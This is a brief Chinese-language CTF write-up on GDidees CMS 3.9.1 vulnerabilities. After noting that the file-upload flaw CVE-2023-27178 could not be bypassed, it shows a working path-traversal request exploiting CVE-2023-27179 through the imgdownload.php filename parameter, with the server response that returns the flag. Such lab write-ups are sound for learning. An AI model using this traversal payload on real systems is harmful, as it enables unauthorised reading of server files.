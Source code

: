 # CVE-2023-27178

:::info

Tags

- GDidees CMS

官方数据库记录

> GDidees CMS 3.9.1 上传功能中存在任意文件上传漏洞，允许攻击者通过精心设计的文件执行任意代码。

:::

按照网上资料，漏洞存在于 `/_admin/ckeditor/plugins/ckfinder/` 路由的文件上传功能，但是无法绕过

可以尝试直接进行`CVE-2023-27179`的攻击：任意文件读取

```shell
root@jmt-projekt:~# http "http://eci-2ze4pnf4or9co59ohuov.cloudeci1.ichunqiu.com/_admin/imgdownload.php?filename=../../../../../../flag"
HTTP/1.1 200 OK
Cache-Control: must-revalidate, post-check=0, pre-check=0, public
Connection: keep-alive
Content-Disposition: attachment; filename="flag.png"
Content-Length: 42
Content-Transfer-Encoding: $type\n
Content-Type: application/force-download
Date: Tue, 23 Jul 2024 15:44:22 GMT
Expires: 0
Pragma: no-cache
X-Powered-By: PHP/7.3.33

flag{a911e14f-699c-4bc3-96a8-87b5e6d36608}
```
